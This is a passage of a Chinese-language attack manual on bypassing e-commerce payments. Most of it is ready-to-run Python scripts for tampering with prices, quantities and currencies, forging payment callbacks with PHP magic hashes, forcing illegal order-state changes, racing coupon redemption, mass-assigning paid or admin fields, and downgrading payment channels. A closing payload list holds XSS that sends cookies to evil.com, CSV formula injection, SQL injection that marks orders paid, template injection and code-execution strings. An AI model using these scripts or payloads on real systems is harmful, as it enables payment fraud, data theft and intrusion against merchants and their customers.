


# Payment Bypass — 支付绕过深度技术手册

> 目标：不付钱、付低价、付假钱、重复用权益、绕过购买流程直接拿货。每个绕过必须有 server-side 状态变更证据。

## 1. 参数篡改深度矩阵

### 1.1 金额字段全语言类型戏法

不同后端语言对同一 JSON 值解析不同，这是支付绕过的核心武器：

```python
# amount_polyglot.py — 跨语言金额绕过探针
import requests, copy, json, time

BASE = "https://target"
S = requests.Session()
ORDER_URL = BASE + "/api/order/create"

BASELINE = {"product_id": 1, "quantity": 1, "amount": 100.00}

# 所有语言都可能出错的值
ATOMIC_PAYLOADS = {
    # === 零值 / 负值 ===
    "zero_int": 0,
    "zero_float": 0.0,
    "zero_string": "0",
    "zero_string_float": "0.00",
    "negative_int": -100,
    "negative_float": -100.0,
    "negative_string": "-100",

    # === 科学计数法 (Java BigDecimal / JS Number / PHP float) ===
    "sci_tiny": "1e-9",
    "sci_neg": "-1e9",
    "sci_zero": "0e0",
    "sci_big": "9.9e99",

    # === NaN / Infinity (PHP/JS 接受，Go/Rust panic 或 0) ===
    "infinity": float("inf") if hasattr(float, "inf") else "Infinity",
    "neg_infinity": float("-inf") if hasattr(float, "inf") else "-Infinity",
    "nan_str": "NaN",
    "nan": float("nan") if hasattr(float, "nan") else "NaN",

    # === 空值 / 未定义 ===
    "null": None,
    "empty_str": "",
    "false_bool": False,
    "true_bool": True,

    # === 数组 / 对象 (PHP 可能 sum = 0) ===
    "empty_array": [],
    "nested_obj": {"value": 0.01},

    # === 字符串数字 (PHP type juggling: "100abc" → 100) ===
    "string_with_suffix": "100abc",
    "hex_string": "0x64",
    "octal_string": "0o144",
    "unicode_digit": "１００",  # full-width digits
    "comma_decimal": "100,00",  # European format

    # === 超大值 (溢出/回绕) ===
    "int_overflow_32": 2147483648,
    "int_overflow_64": 9223372036854775808,
    "big_decimal": "999999999999999999999999999999",
    "negative_overflow": -9223372036854775809,

    # === 精度攻击 ===
    "precision_001": 0.001,
    "precision_0001": 0.0001,
    "repeating": 0.3333333333333333,
    "js_max_safe": 9007199254740991,  # Number.MAX_SAFE_INTEGER + 1 breaks
}

def test_amount_field(field_name: str):
    """对指定字段逐一测试所有 payload"""
    results = []
    for label, value in ATOMIC_PAYLOADS.items():
        data = copy.deepcopy(BASELINE)
        data[field_name] = value
        try:
            r = S.post(ORDER_URL, json=data, timeout=10, allow_redirects=False)
            # 关注: 200 OK 且返回的 amount 与输入不一致
            resp = r.json() if r.headers.get("content-type", "").startswith("application/json") else {}
            results.append({
                "label": label,
                "sent": str(value),
                "status": r.status_code,
                "received_amount": resp.get("amount") or resp.get("data", {}).get("amount"),
                "order_id": resp.get("order_id") or resp.get("data", {}).get("order_id"),
                "body_preview": r.text[:200]
            })
        except Exception as e:
            results.append({"label": label, "error": str(e)})
        time.sleep(0.15)
    return results

# 关键判断:
# - 输入 0 但创建了订单 → 零元购
# - 输入 NaN 但 amount 变成 0 → 零元购
# - 输入 "1e-9" 但 amount 变成 0.0 → 零元购
# - 输入负数但 order 创建成功 → 可能退款实现充值
```

### 1.2 数量/库存参数

```python
QUANTITY_PAYLOADS = [
    # 负数 (可能触发负数总价)
    -1, -100, -99999,
    # 零
    0,
    # 小数 (单价 × 小数可能四舍五入)
    0.5, 0.001, 0.0001,
    # 超大 (库存溢出)
    2147483647, 999999999999,
    # 取整绕过 (限购 1 件但接受 0.9)
    0.9,
    # 数组 (某些后端 sum([]) = 0)
    [],
    # 字符串
    "0", "many", "all", "unlimited",
]

def test_quantity():
    for qty in QUANTITY_PAYLOADS:
        data = {"product_id": 1, "quantity": qty}
        r = S.post(ORDER_URL, json=data, timeout=10)
        print(f"qty={repr(qty):30s} → {r.status_code} | {r.text[:200]}")
        time.sleep(0.1)
```

### 1.3 货币/单位攻击

```python
CURRENCY_PAYLOADS = [
    # 货币切换
    {"currency": "CNY", "amount": 1},
    {"currency": "USD", "amount": 1},   # 1 USD → 可能是 0.14 CNY?
    {"currency": "JPY", "amount": 1},   # 1 JPY → ~0.006 CNY
    {"currency": "KRW", "amount": 1},
    {"currency": "VND", "amount": 1},   # 1 VND → ~0.0003 CNY
    {"currency": "IRR", "amount": 1},   # 伊朗里亚尔

    # 单位切换
    {"unit": "cent"},
    {"unit": "fen"},        # 分
    {"unit": "yuan"},
    {"unit": "dollar"},

    # 精度
    {"decimals": 0},
    {"decimals": 8},        # 多精度可能导致四舍五入到 0
]
```

### 1.4 SKU/商品 ID 替换

```python
# 核心思路: 买低价 SKU，但把高价 SKU 的权益参数带过去
# 或直接修改 SKU → 不存在的 SKU → default free plan

SKU_ATTACKS = {
    "direct_replace": {"product_id": 9999},        # 不存在 → free?
    "low_price": {"product_id": 1},                  # 最便宜的
    "premium_with_low_id": {"product_id": 1, "plan": "premium"},
    "sku_hierarchy": {"product_id": 1, "parent_sku": "FREE"},
    "negative_sku": {"product_id": -1},
    "sku_injection": {"product_id": "1 OR 1=1"},
    "null_sku": {"product_id": None},
}

for label, data in SKU_ATTACKS.items():
    r = S.post(ORDER_URL, json=data, timeout=10)
    resp = r.json() if r.headers.get("content-type", "").startswith("application/json") else {}
    print(f"{label:25s} → plan={resp.get('plan')} price={resp.get('amount')} id={resp.get('order_id')}")
```

## 2. Type Confusion & Coercion 深度利用

### 2.1 PHP Type Juggling 专项

```python
# PHP == 比较漏洞: "0e12345" == "0e67890" (都是 0)
# 如果支付签名用 == 比较:
PHP_MAGIC_HASHES = [
    "0e462097431907509062922748828256",  # MD5("240610708")
    "0e763086752390408517080427520126",  # MD5("QNKCDZO")
    "0e848240448830537924465865611904",  # MD5("aabg7XSs")
    "0e113712690500585202449843398984",  # MD5("aabC9RqS")
]

# POST body: 签名用 magic hash → PHP loose comparison 绕过
for magic in PHP_MAGIC_HASHES:
    r = S.post(BASE + "/api/payment/notify", json={
        "order_id": "TARGET_ORDER",
        "status": "success",
        "amount": "0.01",
        "sign": magic          # ← 被 loose 比较绕过
    })
    print(f"magic={magic[:20]}... → {r.status_code} {r.text[:120]}")

# PHP in_array() 漏洞: in_array(0, ["admin","user"]) → True
# 如果权限检查是 in_array($user_role, $allowed_roles)
# 且 $user_role 来自用户输入(int) 0:
TYPE_JUGGLE_AUTH = [
    {"role": 0},       # PHP in_array(0, ["paid_user"]) → true
    {"role": True},    # in_array(True, ["paid_user"]) → true
    {"role": "0"},     # "0" == 0 == false
]
```

### 2.2 Node.js / JavaScript 专项

```javascript
// JS 的 "惊喜": 
// parseInt("0x64") === 100
// parseInt("010") === 8 (ES5 strict 前)
// isNaN(null) === false (Number(null) === 0!)
// Math.max() === -Infinity
// [] + [] === ""
// {} + [] === 0

// 针对 Node.js 后端的 payload:
const JS_PAYLOADS = {
    // prototype pollution in payment params
    "__proto__": {"admin": true},
    "constructor.prototype.isAdmin": true,

    // JSON.parse 的怪异行为
    "amount": "0x0",           // parseInt("0x0") === 0
    "amount": "0e0",           // parseFloat("0e0") === 0
    "amount": "0b0",           // parseInt("0b0") === 0

    // Array → string conversion
    "product_id": ["1"],       // ["1"].toString() === "1"
    "coupon_ids": [[]],        // [[]].toString() === ""

    // undefined / null 序列化
    "undefined": undefined,    // JSON.stringify 会删除此 key
}
```

### 2.3 Python 后端专项

```python
# Python 陷阱:
# int("0")     → 0
# float("nan") → nan
# bool("False") → True (非空字符串!)
# [1,2,3][-1]  → 3 (负索引)
# Decimal("0.1") + Decimal("0.2") == Decimal("0.3") → True (Decimal 精确)
# 但 float(0.1) + float(0.2) == 0.3 → False!

PYTHON_PAYLOADS = {
    # Flask/FastAPI: 如果接收 amount: float, 传 NaN 可能通过 Pydantic
    "amount_nan": "NaN",        # float("NaN") 不抛异常
    "amount_inf": "Infinity",
    "amount_neg_inf": "-Infinity",

    # Django: IntegerField 接收 "0" → OK (自动转换)
    "quantity_string": "0",
    "price_string": "0.00",

    # 如果后端用 eval/exec/ast.literal_eval 处理 "计算表达式"
    "amount_expr": "__import__('os').system('id')",
    "amount_expr2": "1+1",      # eval → 2

    # YAML 反序列化 (如果 payload 是 YAML)
    "yaml_bomb": "!!python/object/apply:subprocess.check_output [['id']]",
}
```

## 3. 状态机绕过进阶

### 3.1 非法状态转换矩阵

```python
# 完整枚举所有可能的状态转换
ORDERS = {
    "pending":    ["paid", "cancelled", "expired", "refunding", "delivered"],
    "paid":       ["delivered", "refunding", "refunded", "cancelled"],
    "delivered":  ["refunding", "completed", "disputed"],
    "cancelled":  ["reopened"],
    "refunded":   ["closed"],
    "expired":    ["reopened"],
    "completed":  ["closed"],
}

# 对每个状态，尝试所有非法转换
def state_machine_fuzz(order_id: str, current_state: str):
    """尝试所有非法状态转换"""
    all_states = list(ORDERS.keys())
    legal = ORDERS.get(current_state, [])
    illegal = [s for s in all_states if s not in legal]

    endpoints = [
        "/api/order/{id}/status",
        "/api/order/update",
        "/api/admin/order/update",
        "/api/payment/status",
        "/order/{id}/edit",
        "/manage/order/change-status",
    ]

    for target_state in illegal:
        payloads = [
            {"status": target_state},
            {"state": target_state},
            {"order_status": target_state},
            {"payment_status": target_state},
            {"trade_status": target_state.upper()},
            {"status": target_state, "force": True},
            {"status": target_state, "admin": True},
        ]
        for ep in endpoints:
            for payload in payloads:
                url = BASE + ep.format(id=order_id)
                r = S.post(url, json=payload, timeout=10, allow_redirects=False)
                if r.status_code == 200:
                    print(f"[!] ILLEGAL TRANSITION: {current_state} → {target_state}")
                    print(f"    {url} → {r.status_code} | {r.text[:200]}")
```

### 3.2 状态回退绕过

```python
# 典型漏洞: 状态只向前检查，不检查回退
# paid → delivered → paid (回退后重复发货)

def state_rollback_test(order_id: str):
    """测试状态回退"""
    # Step 1: 获取当前状态
    r = S.get(BASE + f"/api/orders/{order_id}")
    initial = r.json().get("status")

    # Step 2: 尝试回退到 pending
    rollback_payloads = [
        {"status": "pending"},
        {"status": "unpaid"},
        {"payment_status": "pending"},
        {"paid": False},
        {"is_paid": 0},
        {"trade_status": "WAIT_BUYER_PAY"},
    ]
    for p in rollback_payloads:
        r = S.post(BASE + f"/api/order/{order_id}/update", json=p)
        if r.status_code == 200:
            # Step 3: 再次调用支付 → 可能重复发货
            r2 = S.post(BASE + f"/api/payment/notify", json={
                "order_id": order_id, "status": "success"
            })
            print(f"[!] Rollback + re-deliver: {r2.status_code} | {r2.text[:200]}")
```

### 3.3 支付方法与网关降级

```python
# 支付方法替换: 高端支付 → 低端支付 → 绕过金额验证
PAYMENT_METHOD_ATTACKS = [
    # 测试支付 (test gateway)
    {"channel": "test"},
    {"channel": "sandbox"},
    {"channel": "mock"},
    {"channel": "debug"},
    {"channel": "internal"},

    # 货到付款 (COD) → 确认收货不校验支付
    {"channel": "cod"},
    {"channel": "cash_on_delivery"},

    # 免费渠道
    {"channel": "free"},
    {"channel": "trial"},
    {"channel": "promo"},
    {"channel": "gift"},

    # 积分/余额 (可能绕过实付金额)
    {"channel": "points"},
    {"channel": "credit"},
    {"channel": "balance"},

    # 银行转账 (人工确认，可能被伪造)
    {"channel": "bank_transfer"},
    {"channel": "offline"},
]

for method in PAYMENT_METHOD_ATTACKS:
    r = S.post(BASE + "/api/payment/create", json={
        "order_id": "ORDER_ID",
        **method
    })
    # 如果返回 pay_url 或直接返回 success → 可能绕过
    print(f"{method} → {r.status_code} | {r.text[:200]}")
```

## 4. 精度与舍入攻击

### 4.1 浮点精度利用

```python
# IEEE 754 浮点精度问题
# 0.1 + 0.2 !== 0.3 in every language
# 支付中用浮点数比较金额 → 致命

def float_precision_attack():
    """利用浮点精度差异绕过金额校验"""
    # 场景: 创建订单 amount=0.01, 支付回调 amount=0.010000000000000002
    # 如果后端用 float 类型存储，且回调签名不校验 amount:
    S.post(BASE + "/api/payment/notify", json={
        "order_id": "ORDER_100_USD",
        "total_amount": 100.00000000000001,  # 可能通过 != 检查但实际仍是 100
        "trade_status": "TRADE_SUCCESS",
    })

    # 场景: 1 分钱支付，但精度丢失导致 amount=0
    # 如果后端 Decimal 转 float 再比较:
    precision_attacks = [
        0.000000001,
        0.000000000000001,
        1e-15,
        1e-20,
        # 对于使用 double 的: 1e-323 (subnormal)
    ]
```

### 4.2 整数溢出

```python
# 金额以"分"为单位存储时的溢出
# INT32_MAX = 2,147,483,647 分 = 2147 万元
# 如果 quantity × unit_price_cents 溢出:

def overflow_attack():
    payloads = [
        # INT32 overflow
        {"quantity": 2, "unit_price_cents": 2147483647},  # 溢出变负
        {"quantity": 2147483647, "unit_price_cents": 2},

        # INT64 overflow
        {"quantity": 2, "unit_price_cents": 9223372036854775807},

        # 折扣溢出: price - discount → 负数变正
        {"amount": 1, "discount": 2147483648},  # 1 - (-2147483648) = large
        {"amount": 0, "coupon_value": -2147483648},  # 0 - (-max) = max
    ]
```

### 4.3 舍入方向利用

```python
# 银行家舍入 (round half to even) vs 普通四舍五入
# 不同语言/数据库舍入不同:
# PostgreSQL: ROUND(2.5) → 3 (四舍五入)
# Python: round(2.5) → 2 (银行家)
# Java: Math.round(2.5) → 3 (四舍五入)
# BigDecimal.ROUND_HALF_EVEN → 2 (银行家)

def rounding_attack():
    """分转元时的舍入攻击"""
    # 0.5 分 → 0 分还是 1 分?
    # 如果每条记录舍入到 0, 大量并发可零元购
    tiny_amounts = [
        0.004,   # round → 0.00
        0.005,   # 四舍五入 → 0.01, 银行家 → 0.00
        0.014,   # round → 0.01
        0.015,   # 四舍五入 → 0.02, 银行家 → 0.02
    ]
    for amt in tiny_amounts:
        r = S.post(BASE + "/api/recharge", json={"amount": amt})
        print(f"pay={amt} → actual={r.json().get('amount')}")
```

## 5. 优惠券/折扣逻辑深度利用

### 5.1 折扣叠加链

```python
# 多重折扣叠加 -> 价格变负或零
COMBO_ATTACKS = {
    # 多个一次性优惠码叠加
    "multi_coupon": {
        "coupon_codes": ["NEWUSER50", "VIP30", "BIRTHDAY20", "REFERRAL10"],
        "product_id": 1,
        "quantity": 1,
    },
    # 百分比折扣 + 固定折扣
    "pct_plus_fixed": {
        "discount_percent": 90,
        "discount_fixed": 50,
        "product_id": 1,
    },
    # 满减在未满时使用
    "threshold_skip": {
        "coupon_id": "OVER_100_MINUS_50",
        "product_id": 1,        # 原价 30
        "quantity": 1,
    },
    # 平台券 + 商家券叠加
    "cross_coupon": {
        "platform_coupon_id": "PLAT50",
        "merchant_coupon_id": "SHOP50",
    },
    # 优惠券金额 > 商品金额
    "over_coupon": {
        "coupon_id": "BIG100",
        "product_id": 1,  # 价格 10
    },
    # 负值折扣
    "negative_discount": {
        "discount": -1000,
    },
    # 优惠券比例 > 100%
    "over_100_pct": {
        "coupon_percent": 200,
    },
}
```

### 5.2 优惠券生命周期攻击

```python
def coupon_lifecycle_attacks():
    """攻击优惠券的创建/绑定/使用/退还全生命周期"""
    attacks = {
        # === 创建阶段 ===
        "batch_steal": "批量领取仅限一次的优惠券",
        "fake_batch": "用他人/随机 batch_id 领取专属优惠券",
        "expired_use": "已过期优惠券仍可用",

        # === 绑定阶段 ===
        "rebind": "已绑定用户 A 的券绑定到用户 B",
        "multi_user": "同一张优惠券被多个用户同时使用 (并发)",

        # === 使用阶段 ===
        "use_on_wrong_product": "全场券用在限定商品外",
        "use_with_zero_price": "0 元商品使用优惠券 → 退款 = 优惠券金额?",
        "use_then_cancel": "使用后取消订单 → 优惠券未退还或重复退还",
        "partial_refund_keep_coupon": "部分退款 → 优惠券仍然有效",

        # === 退还阶段 ===
        "double_return": "取消订单 → 优惠券退还两次",
        "return_expired_coupon": "退还的优惠券过期时间被重置?",
        "return_as_cash": "优惠券退还变成余额",
    }
    return attacks
```

### 5.3 并发优惠券完整脚本

```python
# coupon_race.py — 优惠券并发全测试
import concurrent.futures, threading, time, requests

SESSIONS = [requests.Session() for _ in range(30)]
locked = threading.Lock()
successes = []

def redeem(i: int):
    sess = SESSIONS[i % len(SESSIONS)]
    try:
        r = sess.post(
            "https://target/api/coupon/redeem",
            json={"code": "ONETIME-COUPON-CODE", "user_id": f"user_{i}"},
            timeout=15
        )
        if r.status_code == 200 and "error" not in r.text.lower():
            with locked:
                successes.append(i)
        return i, r.status_code, r.text[:120]
    except Exception as e:
        return i, 0, str(e)

with concurrent.futures.ThreadPoolExecutor(max_workers=30) as ex:
    futs = [ex.submit(redeem, i) for i in range(100)]
    for f in concurrent.futures.as_completed(futs):
        print(f.result())

print(f"[*] Success count: {len(successes)} / 100 (expected: 1)")
if len(successes) > 1:
    print(f"[!] RACE CONDITION — coupon reused {len(successes)} times!")
```

## 6. 批量赋值 / Mass Assignment

```python
# 如果后端用了 ORM 的 bind/unbind 不严格:
# Laravel $order->update($request->all())
# Rails Order.update(params)
# Django Model.objects.filter(...).update(**request.data)

MASS_ASSIGNMENT_PAYLOADS = {
    # 直接设状态
    "paid_direct": {"status": "paid", "is_paid": True, "paid_at": "now"},
    # 设权益
    "vip_direct": {"vip_level": 99, "vip_until": "2099-12-31"},
    # 设余额
    "balance_direct": {"balance": 999999, "credits": 999999},
    # 设管理员
    "admin": {"is_admin": True, "role": "admin", "is_staff": True},
    # 设价格
    "price_override": {"unit_price": 0, "total_price": 0},
    # 设支付信息 (看起来像已支付)
    "fake_payment": {
        "paid_at": "2024-01-01T00:00:00Z",
        "payment_method": "alipay",
        "transaction_id": "FAKE_TXN_001",
        "payment_proof": "data:image/png;base64,...",
    },
}

def mass_assignment_test(base_data: dict):
    for label, extra_fields in MASS_ASSIGNMENT_PAYLOADS.items():
        data = {**base_data, **extra_fields}
        r = S.post(BASE + "/api/order/create", json=data)
        print(f"{label:20s} → {r.status_code} {r.text[:250]}")
```

## 7. 多步支付流程绕过

### 7.1 跳过步骤

```python
# 典型支付流程: cart → order → pay → notify → deliver
# 绕过: 直接调用后面的步骤

def skip_step_attack(cart_id: str):
    """跳过前置步骤直达发货"""
    steps = [
        # 直接从创建跳到发货
        ("POST", f"/api/order/{cart_id}/deliver", {}),
        # 从创建跳到回调
        ("POST", f"/api/order/{cart_id}/notify", {"status": "success"}),
        # 从创建跳到支付成功
        ("GET", f"/api/order/{cart_id}/pay-success"),
        # 从前端回调页直达
        ("GET", f"/pay/return?order_id={cart_id}&status=success"),
        # 从 API 直接发货
        ("POST", "/api/delivery/create", {"order_id": cart_id}),
    ]
    for method, path, data in steps:
        r = S.request(method, BASE + path, json=data, timeout=10, allow_redirects=False)
        print(f"{method} {path} → {r.status_code} | {r.text[:200]}")
```

### 7.2 三步支付竞态

```python
# 创建订单 (金额可变) → 支付 (金额已锁定?) → 确认
# 竞态点: 在创建和支付之间修改订单金额

def create_pay_race():
    """创建订单后、支付前修改订单"""
    # Step 1: 创建订单 100 元
    r = S.post(BASE + "/api/order/create", json={"product_id": 1, "amount": 100})
    order_id = r.json()["order_id"]

    # Step 2: 并发: 修改订单为 0.01 + 发起支付
    def modify():
        return S.put(BASE + f"/api/order/{order_id}", json={"amount": 0.01})

    def pay():
        return S.post(BASE + "/api/pay", json={"order_id": order_id})

    with concurrent.futures.ThreadPoolExecutor(max_workers=2) as ex:
        fut_mod = ex.submit(modify)
        fut_pay = ex.submit(pay)
        r_mod = fut_mod.result()
        r_pay = fut_pay.result()

    print(f"Modify: {r_mod.status_code} | {r_mod.text[:200]}")
    print(f"Pay: {r_pay.status_code} | {r_pay.text[:200]}")

    # 检查: 支付成功的金额是多少?
    r_check = S.get(BASE + f"/api/order/{order_id}")
    print(f"Final: {r_check.json()}")
```

## 8. 退款/取消双向利用

```python
# 退款后的状态残留
def refund_exploit():
    exploits = [
        # 退款但权益不撤销
        {
            "name": "refund_keep_vip",
            "flow": "pay → deliver VIP → refund → VIP 仍有效",
            "check": "退款后检查 subscription_until, vip_level"
        },
        # 退款后余额叠加
        {
            "name": "refund_balance_stack",
            "flow": "充值 100 → 退款 100 → 余额仍为 100 (余额未扣回) → 再退款 → 200",
        },
        # 部分退款全权益
        {
            "name": "partial_full_entitlement",
            "flow": "套餐含 5 个权益 → 退 1/5 金额 → 仍保留全部 5 个权益",
        },
        # 订单取消不退券
        {
            "name": "cancel_no_coupon_return",
            "flow": "使用优惠券支付 → 取消订单 → 优惠券未退还",
        },
        # 双退
        {
            "name": "double_refund",
            "flow": "并发调用退款 API → 两次退款成功",
        },
    ]
```

## 9. API 版本/Content-Type 切换

```python
# 不同 API 版本可能有不同的校验逻辑
def api_version_bypass():
    headers_variants = [
        {"Accept": "application/vnd.api-v1+json"},
        {"Accept": "application/vnd.api-v2+json"},
        {"Accept": "text/html"},                           # 可能返回 admin 页面
        {"Content-Type": "application/xml"},               # XML 解析可能有不同逻辑
        {"Content-Type": "application/x-www-form-urlencoded"},  # 可能走不同 handler
        {"Content-Type": "multipart/form-data"},           # 可能绑不上字段 → default
        {"Content-Type": "text/plain"},                    # 某些框架不解析

        # API version header
        {"X-API-Version": "1"},
        {"X-API-Version": "0"},
        {"X-API-Version": "999"},

        # GraphQL endpoint (可能绕过 REST 校验)
        {"Content-Type": "application/graphql"},
    ]
```

## 10. 攻击链



## Evidence 交付标准

支付绕过漏洞确认必须提供：

1. **baseline**: 正常支付流程的预期金额/权益
2. **payload**: 触发绕过的具体请求 (完整的 method/url/headers/body)
3. **response**: 服务端返回，尤其是 status/amount/entitlement
4. **state_diff**: 绕过前后的用户权益变化 (vip 状态、余额、订单状态)
5. **flag**: 自动从响应或页面提取 flag

```python
# evidence_collector.py
def collect_evidence(name: str, request_info: dict, response: requests.Response):
    return {
        "name": name,
        "timestamp": time.strftime("%Y-%m-%dT%H:%M:%S"),
        "request": {
            "method": request_info.get("method", "POST"),
            "url": response.request.url if hasattr(response.request, 'url') else request_info.get("url"),
            "headers": dict(response.request.headers) if hasattr(response.request, 'headers') else {},
            "body": request_info.get("body", {}),
        },
        "response": {
            "status": response.status_code,
            "headers": dict(response.headers),
            "body": response.text[:500],
        },
        "verdict": "bypass" if response.status_code == 200 and "error" not in response.text.lower() else "blocked",
    }
```

## 11. 支付方法链式攻击

### 11.1 混合支付拆分

```python
# 多支付方法组合支付时，各通道金额校验独立:
# 余额 10 + 微信 90 = 100 元商品
# 如果余额支付校验 10，微信支付校验 90，但总金额校验在客户端:

def mixed_payment_attack():
    """混合支付绕过"""
    # 攻击 1: 总金额 100，余额付 -90，微信付 10
    r = S.post(BASE + "/api/pay/mixed", json={
        "order_id": "ORDER_ID",
        "methods": [
            {"type": "balance", "amount": -90},
            {"type": "wechat", "amount": 10},
        ],
        "total": 100,  # 客户端传的 total
    })

    # 攻击 2: 各子支付金额之和 != total，但后端取 total
    r = S.post(BASE + "/api/pay/mixed", json={
        "order_id": "ORDER_ID",
        "methods": [
            {"type": "balance", "amount": 0.01},
            {"type": "alipay", "amount": 0.01},
        ],
        "total": 0.01,  # 如果后端按 total 扣款
    })

    # 攻击 3: 支付方法返回失败，但总订单变 paid
    r = S.post(BASE + "/api/pay/mixed", json={
        "order_id": "ORDER_ID",
        "methods": [
            {"type": "balance", "amount": 100, "status": "failed"},
            {"type": "wechat", "amount": 0, "status": "success"},  # ← 0 元微信支付
        ],
    })
```

### 11.2 支付方法降级链

```python
# 从强校验通道降级到弱校验通道
PAYMENT_CHANNEL_HIERARCHY = {
    "tier1_strong": ["wechat", "alipay", "stripe", "paypal"],    # 完整签名
    "tier2_medium": ["bank_transfer", "cod", "invoice"],           # 人工确认
    "tier3_weak": ["balance", "points", "credits", "wallet"],      # 内部系统
    "tier4_none": ["free", "trial", "test", "sandbox", "internal"],  # 无校验
}

def channel_downgrade_chain(order_id: str):
    """逐个尝试降级支付通道"""
    # 如果能先创建高价订单，再切换到免费通道支付:
    channels = ["free", "trial", "test", "sandbox", "internal", "debug", "mock"]
    for ch in channels:
        r = S.post(BASE + "/api/payment/channel", json={
            "order_id": order_id,
            "channel": ch,
        })
        if r.status_code == 200:
            r2 = S.post(BASE + "/api/payment/confirm", json={
                "order_id": order_id,
                "channel": ch,
            })
            if r2.status_code == 200:
                print(f"[!] Channel downgrade: {ch} → paid!")
                return True
    return False
```

## 12. 支付链接 / QR 码操纵

### 12.1 支付链接参数篡改

```python
# 场景: POST /api/pay → 返回 {"pay_url": "https://pay.xxx.com/?id=PREPAY_ID"}
# 如果 PREPAY_ID 可预测或参数可篡改:

def payment_link_analysis():
    """分析支付链接结构"""
    r = S.post(BASE + "/api/pay", json={"order_id": "ORDER_1", "amount": 100})
    pay_url = r.json().get("pay_url")

    # 解析参数
    from urllib.parse import urlparse, parse_qs
    parsed = urlparse(pay_url)
    params = parse_qs(parsed.query)

    attacks = {
        # ID 序列化攻击
        "sequential_id": "如果 prepay_id 是递增整数 → 修改为更早的低价支付",
        # 参数注入
        "amount_injection": "如果 amount 在 URL 中 → 直接改",
        # 签名参数: 如果有 sign=MD5(id+amount+key)
        "sign_strip": "去掉 sign 参数 → 后端不校验",
        # 回调地址注入
        "notify_url_injection": "如果 notify_url 在链接中 → SSRF",
        # 时间戳攻击
        "timestamp_expired": "使用过期的支付链接 → 后端回退到默认金额",
    }
    return parsed, params, attacks
```

### 12.2 QR 码内容解析与篡改

```python
# QR 码通常编码为 URL 或 JSON 字符串
# 常见格式: weixin://wxpay/bizpayurl?pr=xxx
#           https://qr.alipay.com/xxx
#           https://pay.xxx.com/qr/TOKEN

def qr_code_attack():
    """QR 码支付攻击"""
    # 如果 QR 码是静态的 (固定金额):
    QR_ATTACKS = [
        # 1. QR 码复用: 用别人扫过的低金额 QR 码
        {"name": "qr_reuse", "risk": "静态 QR 码不绑定订单"},

        # 2. QR 码预测: 如果 token 是可预测的
        {"name": "qr_prediction", "risk": "QR token = base64(order_id + timestamp)"},

        # 3. QR 码替换: 把自己的 QR 码发给受害者
        {"name": "qr_swap", "risk": "受害者扫了攻击者的 QR → 付钱给攻击者"},

        # 4. 缩短链接重定向
        {"name": "qr_shortlink", "risk": "短链接 → 可以改写到恶意支付页"},
    ]

# 动态 QR (用户扫码后生成订单): 扫码 → 创建订单 → 支付
# 竞态点: 扫码和创建订单之间
```

## 13. 支付描述 / 备注注入

### 13.1 跨上下文注入

```python
# 支付备注/描述/附言字段通常没有严格校验
# 但会在管理后台、对账报表、邮件通知中展示

def payment_note_injection():
    """支付备注字段注入攻击"""
    injection_payloads = {
        # === XSS (管理后台查看时触发) ===
        "xss_basic": "",
        "xss_svg": "<svg/onload=eval(atob('...'))>",
        "xss_style": "<style>@import url('//evil.com/x')</style>",
        "xss_meta": "<meta http-equiv='refresh' content='0;url=//evil.com/cookie='+document.cookie>",

        # === CRLF (对账 CSV 导出) ===
        "crlf_csv": "test%0d%0a=cmd|'/C calc'!A0",  # CSV injection
        "crlf_log": "PAID\r\n[FAKE] order_id=ADMIN_ORDER status=paid",

        # === SQL injection (如果备注入库拼接 SQL) ===
        "sqli_basic": "test' OR '1'='1",
        "sqli_union": "' UNION SELECT order_id,amount FROM orders--",
        "sqli_update": "'; UPDATE orders SET status='paid' WHERE order_id='TARGET'--",

        # === SSTI (模板引擎渲染备注) ===
        "ssti_jinja": "{{config.SECRET_KEY}}",
        "ssti_twig": "{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}",
